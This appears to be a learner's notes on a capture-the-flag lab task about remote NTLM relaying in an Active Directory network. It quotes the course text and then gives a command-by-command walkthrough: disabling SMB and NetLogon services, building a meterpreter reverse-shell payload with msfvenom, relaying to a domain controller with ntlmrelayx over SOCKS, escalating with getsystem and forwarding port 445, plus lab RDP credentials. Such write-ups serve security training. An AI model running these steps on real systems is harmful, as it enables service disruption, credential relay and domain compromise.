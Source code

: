 As has been previously eluded to, we can use a newly researched attack to exploit NTLM sessions. This attack works by forcing the server to stop SMB traffic and restart the server to send all traffic to the attacker. The attacker can then relay the session where they want. Credit to the research behind this exploit goes to SpookySec, one of the creators of Holo. Find the original blog post here, [https://blog.spookysec.net/remote-ntlm-relaying/](https://blog.spookysec.net/remote-ntlm-relaying/).  

Remote NTLM relaying is not a widely discussed or popular attack vector, with the only reference before this research being this blog, [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/).  

The reason this attack vector isn't widely used is that it is very disruptive. If the server is busy, you are unintentionally creating an SMB DoS and creating server downtime. In a real engagement, this is a huge problem. This attack can be used with explicit authorization from the client and contributes to the ever-moving exploit and red team research. A white card may be used in place of this exploit in the real world, as mentioned in Task 8.  

To begin crafting this exploit, we will need to install multiple packages specific to non-standard Kerberos that the relay uses. Find the packages below.  

- `krb5-user`
- `cifs-utils`

These can be installed using apt with the command below.  

Command: `apt install krb5-user cifs-utils`

To begin configuring the server for the exploit, we will need to start turning off SMB services and restart the server. Find an outline of the steps taken below.  

Begin by disabling NetLogon. Find the command used below.  

Command used: `sc stop netlogon`

Next, we need to disable and stop the SMB server from starting at boot. We can do this by disabling LanManServer and modifying the configuration. Find the command used below.  

Command used: `sc stop lanmanserver` and `sc config lanmanserver start= disabled`

To entirely stop SMB, we will also need to disable LanManServer and modify its configuration. Find the command used below.  

Command used: `sc stop lanmanworkstation` and `sc config lanmanworkstation start= disabled`

The steps taken may seem very confusing and convoluted because Windows does not want to stop the SMB service completely.  

We can now restart the machine; it is essential that you restart the device and not shut down the device. Give the server a few minutes to restart; scan the server again and ensure it returns as closed.

---
RDP back into the machine; stopping NetLogon can cause issues in some RDP clients, so it is recommended to use `rdesktop`.  

At this point of the attack, we recommend using Metasploit as it offers enhanced proxy functionality and traffic routing. Create a basic payload with Metasploit and execute it on the server. Find example usage below.  

Example usage: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f exe > shell.exe`

Now that we have stopped the SMB service and can control how our traffic is routed, we can begin exploitation. First, we need to start NTLMRelayX, specifying the domain controller and protocol to exploit, in this case, SMB. Find syntax for NTLMRelayX below.  

Syntax: `ntlmrelayx.py -t smb://<DC> -smb2support -socks`

We have now set up a relay client to route sessions through a SOCKs proxy.  

We can now force the connection using Metasploit port forwarding. Find an example command below.  

Example command: `portfwd add -R -L 0.0.0.0 -l 445 -p 445`

After waiting about 1-3 minutes, you should see a new inbound SMB connection. Now that we have the SOCKs tunnel open, we can use proxy chains to use this session with several offensive tools, shown in the next task.  

At this point, we should have a successful relay, and we can move on to weaponizing the relay in the next task.

---
**Troubleshooting -**

**Problem:**  

- You are not receiving any inbound SMB connections from NTLMRelayX.

**Solution 1**

- Ensure that you started running NTLMRelayX running **before** you created the Port Forward. If you did not, restart the machine.

**Solution 2**

- Ensure that you ran NTLMRelayX with the -smb2support flag.

**Problem**

- I am receiving inbound SMB Connections, but a session between the Domain Controller fails to establish.

**Solution 1**

- Ensure that there is connectivity between your attacking device and the Domain Controller. You can test this with smbclient -L ///<dcip/>/. We recommend using SSHuttle over Chisel for this portion, as you would need to juggle multiple ProxyChains config files with Chisel. SSHuttle makes this process overall easier by automagically adjusting your devices routing table.

**Solution 2**

- Verify that this is not an issue with your NTLMRelayX version. We have a report from a user that their specific version of NTLMRelayX did not work. We have verified that **version 0.9.22** works without any issues.

---

# Your job

## Close everything on SMB Port

- Use the SMB Port from the compromised server `10.200.X.35` , so you have to RDP with rdesktop.

```
$ rdesktop -u abcuser -p Abc1234! 10.200.X.35
```

- Close every service running there to make it free. For that use a **cmd** access on the compromised server and execute the following commands.

```
sc stop netlogon  
sc stop lanmanserver  
sc config lanmanserver start= disabled  
sc stop lanmanworkstation  
sc config lanmanworkstation start= disabled
```

- Restart the machine.

```
shutdown -r
```

## Create a basic payload with Metasploit and execute it on the server

- On the attacking machine run:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f exe > shell.exe
```

## Exploitation

- On the attacking machine run:

```
$ impacket-ntlmrelayx -t smb://10.200.110.30 -smb2support -socks
```

![[Task 47 - Why not just turn it off?-20241122144645114.webp]]

- Run the malicious binary for the DLL hijacking to get a reverse shell. [[Task 43 - WERE TAKING OVER THIS DLL!#DLL Hijacking]]

- Once the meterpreter is there, you should be your added user, you can check this by running:

```
getuid
```

- Elevate the SYSTEM running:

```
getsystem
```

![[Task 47 - Why not just turn it off?-20241122150133824.webp]]

- Set up a port forward with Metasploit:

```
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```

After a while ntlmrelay starts getting data.

![[Task 47 - Why not just turn it off?-20241122150405855.webp]]

> [!success]
> Although we got a warning about the Unsupported MechType it looks like a SOCKS connection is added, so we have access!


**Next step:** [[Task 48 - Ready your weapons]]

